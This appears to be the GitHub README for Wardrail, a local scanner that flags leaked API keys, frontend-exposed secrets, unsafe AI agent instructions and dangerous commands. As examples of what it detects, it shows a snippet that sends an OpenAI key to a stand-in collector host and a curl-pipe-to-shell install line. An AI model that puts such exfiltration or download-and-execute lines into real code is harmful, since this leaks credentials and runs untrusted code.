

# Wardrail

> The safety check for vibe-coded apps and AI agent projects.

**Catch leaked API keys, unsafe agent instructions, and dangerous MCP commands
before they run or reach GitHub.**

[中文](docs/README.zh-CN.md) ·
[Vibe coding safety guide](docs/vibe-coding-safety.md) ·
[Roadmap](docs/roadmap.md) ·
[Contributing](CONTRIBUTING.md)

[](https://github.com/3196973848/wardrail/actions/workflows/ci.yml)
[](https://github.com/3196973848/wardrail/stargazers)




## Why Wardrail?

AI makes it possible to build an app before learning every security boundary.
That is powerful—but it also makes a few expensive mistakes unusually easy:

```env
OPENAI_API_KEY=sk-...             # committed by accident
VITE_PAYMENT_SECRET=...           # shipped to every browser
DATABASE_URL=user:password@host   # copied into source
```

Wardrail gives beginners an immediate, plain-language answer:

- **What is dangerous?**
- **Where is it?**
- **Why does it matter?**
- **How do I fix it?**

It runs locally, does not upload source code, does not need an AI model, and
never executes the project being scanned.

## Try it in one minute

The npm command is prepared for the first public release:

```bash
npm install --save-dev wardrail
npx wardrail scan
npx wardrail hook install
```

To try the current repository before that release:

```bash
npm install
npm run dev -- scan examples/vibecoding-api-leak
```

The pre-commit hook scans only staged files:

```text
git commit
    ↓
wardrail scan --staged
    ↓
safe → commit continues
risk → commit stops with an explanation
```

## The problems it catches

Wardrail currently ships with 15 explainable rules:

| Area | Examples |
|---|---|
| API keys and tokens | OpenAI, Anthropic, AWS, GitHub, Google, Stripe, Slack and generic secrets |
| Frontend exposure | Secrets placed in `VITE_*`, `NEXT_PUBLIC_*`, or `REACT_APP_*` |
| Environment files | Sensitive `.env` files missing from `.gitignore` |
| Accidental disclosure | Secrets in logs, Authorization headers, database URLs, and Docker layers |
| Data exfiltration | Sensitive environment values flowing into external HTTP requests |
| Agent safety | Credential access, safeguard bypass instructions, and invisible Unicode |
| Dangerous commands | Remote download-and-execute, destructive deletion, and encoded PowerShell |
| Supply chain | Mutable branches, `latest` releases, and unpinned install commands |

Run `npx wardrail rules list` to see `WR-001` through `WR-015`, or:

```bash
npx wardrail explain WR-007
```

## More than a basic secret pattern matcher

Wardrail understands relationships that matter in agent-driven projects:

```text
.env → process.env.OPENAI_API_KEY → request body → external URL

SKILL.md → shell tool → cloud credential file → curl

Agent instruction → bypass confirmation → destructive command
```

Its lightweight data-flow analysis can follow short local assignments:

```ts
const secret = process.env.OPENAI_API_KEY;
const body = JSON.stringify({ secret });

await fetch("https://collector.example/upload", {
  method: "POST",
  body,
});
```

The report points to the network sink while keeping the evidence redacted.

## Designed for real workflows

### Scan before a commit

```bash
npx wardrail scan --staged
npx wardrail hook install
```

Hook installation is idempotent. Existing shell-hook commands are preserved,
and non-shell hooks are never overwritten.

### Scan in CI

```bash
npx wardrail scan --format sarif --output wardrail.sarif
```

SARIF 2.1.0 findings can be uploaded to GitHub Code Scanning. See the
[working workflow](docs/github-code-scanning.md).

### Adopt it without fixing everything today

```bash
npx wardrail baseline create
npx wardrail scan
```

The baseline suppresses only unchanged historical findings. New or moved
risks still fail the scan.

## Example finding

```text
Wardrail Security Report

CRITICAL  src/config.ts:3:19
WR-001: Known credential format
  A value matches the format of a known API key or token.
  Evidence: const apiKey = "<redacted-token>";
  Fix: Remove the value, rotate the credential, and use a secret store.

1 risk found: 1 critical
```

Wardrail redacts credential evidence before printing terminal, JSON, or SARIF
reports.

## Configuration

Run `npx wardrail init` to create `.wardrail.json`:

```json
{
  "ignore": ["**/vendor/**"],
  "ignoreRules": [],
  "maxFileSize": 1048576,
  "baseline": ".wardrail-baseline.json"
}
```

Suppress a reviewed finding narrowly:

```sh
# wardrail-ignore-next-line WR-004 -- checksum verified in SECURITY.md
curl https://trusted.example/install.sh | sh
```

## If a key has already leaked

Removing it from the current file is not enough:

1. Revoke or rotate the credential at the provider immediately.
2. Remove it from code and use a server-side environment variable or secret
   manager.
3. Inspect Git history, build artifacts, logs, and deployed frontend bundles.
4. Review provider activity for unauthorized use.

Wardrail prevents common leaks; it does not prove that a credential has never
been exposed.

## Project status

Wardrail is a tested pre-release:

- 15 built-in security rules
- terminal, JSON, and SARIF output
- pre-commit and GitHub Code Scanning integration
- baseline and inline suppression support
- Node.js 20, 22, and 24 CI
- static, local, offline-by-default scanning

See the [public roadmap](docs/roadmap.md) for Git-history scanning,
cross-file data flow, more ecosystems, and rule plugins.

## Help build the safety net

Good first contributions include:

- a real false-positive example with secrets removed;
- a dangerous and safe fixture for a new provider;
- support for another agent configuration format;
- clearer remediation text for beginners.

Read [CONTRIBUTING.md](CONTRIBUTING.md) or open a structured rule request.

If Wardrail would have saved you from one leaked key, consider starring the
repository. It helps more new builders discover the safety check before their
first accidental push.

## Security and limitations

- Scans are read-only and target code is never executed.
- Symlinks are not followed during discovery.
- Secret-like evidence is redacted before reporting.
- No source code is uploaded and no network or model access is required.
- A clean report does not prove that a project or agent is safe.
- Git-history scanning and full cross-file data flow are not implemented yet.

Report vulnerabilities through [SECURITY.md](SECURITY.md).

## License

MIT
